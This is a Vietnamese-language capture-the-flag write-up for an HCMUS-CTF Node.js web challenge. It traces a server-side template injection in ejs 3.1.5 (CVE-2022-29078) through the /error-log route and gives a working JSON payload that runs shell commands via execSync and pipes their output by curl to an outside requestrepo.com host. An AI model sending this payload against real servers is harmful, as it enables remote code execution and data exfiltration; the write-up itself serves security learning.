







# it-s



```
.
├── Dockerfile
├── data
│   ├── WiredTiger
│   ├── WiredTiger.lock
│   ├── WiredTiger.wt
│   ├── WiredTiger.wt.1
│   ├── WiredTiger.wt.2
│   ├── journal
│   └── mongod.lock
├── docker-compose.yml
├── flag
├── init.sh
├── models
│   └── user.js
├── package.json
├── routes
│   └── index.js
├── server.js
└── views
    ├── css
    │   └── main.css
    ├── data.ejs
    ├── error.ejs
    ├── forget.ejs
    ├── index.ejs
    └── login.ejs

6 directories, 20 files
```

Trang web này có chức năng đăng kí, đăng nhập



Sau khi đăng nhập thì trang web hiển thị ra thông tin của user



Ngoài các route `/, /login, /logout` không có gì đặc biệt, còn trong `/profile` thì sử dụng username và email để render. Nghi ngờ đây là lỗi SSTI in ejs nên mình cũng thử reg các account có chứa payload và login vào xem thử nhưng đều fail hết

```javascript
router.get('/profile', (req, res, next) => {
	User.findOne({ unique_id: req.session.userId }, (err, data) => {
		if (!data) {
			res.redirect('/');
		} else {
			return res.render('data.ejs', { "name": data.username, "email": data.email });
		}
	});
});
```

Ngoài ra còn có route `/error-log` để hiển thị các lỗi trong đó có `res.render('error.ejs',body);`, nếu mình bypass được qua các điều kiện ở trên thì có thể sử dụng body để render trang web

```javascript
router.post('/error-log', (req, res, next) => {
	//chi~ admin moi' log duoc. loi^~
	User.findOne({ email: 'admin@admin.com' }, (err, data) => {
		if (data) {
		let body = req.body;
		if(!body.email||!body.password){return next(err)}
		if(body.email&&body.password){
			if(body.email!=data.email&&body.password!=data.password){
				return next(err)
			}
		}
		//log(body)
		return res.render('error.ejs',body);
		} else {
			res.send({ "Error": "Admin Email Is not registered!" });
		}
	});
	
});
```

Trong `error.ejs` sử dụng `message` để hiển thị lỗi

```html
		<div>
			<center>
				<p><% if (typeof message !== 'undefined' && message.length > 0) { %>
                    <%= message %>
                  <% } %></p>
			</center>
		</div>
```

Mình truyền vào body tham số message -> xác định endpoint là ở route này



Mình cũng đã phát hiện đc phiên bản của ejs là `"ejs": "3.1.5"` nên mình có thể sử dụng payload theo trang này để thực hiện RCE thông qua điều khiển các giá trị trong `settings[view options]`, ejs sẽ nhận các giá trị mà mình truyền vào [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami ](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

```json

{"email":"admin@admin.com","password":"123", "message": "longkd719","settings":{   "view options":{"outputFunctionName":"x;process.mainModule.require('child_process').execSync('echo RCE | curl -d @- dqmw8xnn.requestrepo.com');s"}}}
```



RCE thành công



`cat /flag`



`Flag: HCMUS-CTF{L3ts_D0_Bug_B0unty_W1th_55TI}`